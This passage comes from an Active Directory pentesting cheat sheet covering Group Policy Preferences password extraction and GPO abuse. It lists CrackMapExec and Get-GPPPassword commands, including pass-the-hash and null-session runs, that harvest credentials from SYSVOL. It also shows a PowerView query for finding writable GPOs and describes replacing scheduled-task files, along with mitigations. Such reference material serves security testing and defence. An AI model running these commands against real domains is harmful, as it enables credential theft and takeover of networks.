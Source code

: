 * CrackMapExec modules
    ```powershell
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
    ```

* [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)
  ```powershell
  # with a NULL session
  Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

  # with cleartext credentials
  Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

  # pass-the-hash
  Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
  ```

### Mitigations

* Install [KB2962486](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025) on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.
* Delete existing GPP xml files in SYSVOL containing passwords.
* Don’t put passwords in files that are accessible by all authenticated users.

## Exploit Group Policy Objects GPO

> Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

:triangular_flag_on_post: GPO Priorization : Organization Unit > Domain > Site > Local

GPO are stored in the DC in `\\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\`, inside two folders **User** and **Machine**.
If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at `Machine\Preferences\ScheduledTasks`.

:warning: Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: `gpupdate /force`. 

### Find vulnerable GPO

Look a GPLink where you have the **Write** right.

```powershell
Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
```

### Abuse GPO with SharpGPOAbuse
